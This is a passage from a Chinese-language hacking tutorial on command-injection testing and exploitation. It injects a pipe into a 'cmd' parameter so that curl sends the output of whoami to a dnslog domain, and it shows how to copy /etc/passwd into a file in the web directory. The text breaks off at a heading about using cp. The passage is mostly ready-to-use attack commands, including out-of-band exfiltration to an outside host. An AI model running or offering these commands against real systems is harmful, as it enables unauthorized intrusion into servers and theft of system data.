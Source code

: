 **（1）到dnslog站点上申请一个临时域名**

![image-20211126145143716](image/命令执行/image-20211126145143716.png)

（2）简单测试一下向目标服务器发起http请求，执行下面的命令

```
cmd=|curl u8kq1v.dnslog.cn/`whoami`
```

查看dnslog，如果得到执行结果(如上面执行`whoami`命令，得到`www-data`)，就说明测试点存在命令执行。



### 利用方法

#### 1、直接执行系统命令

* 利用条件：需要站点目录具有写权限

（1）使用>或>>

```php
cat /etc/passwd > passwd.txt
cat /etc/passwd >> passwd.txt
```

![image-20211126150923954](image/命令执行/image-20211126150923954.png)



（2）使用cp命令

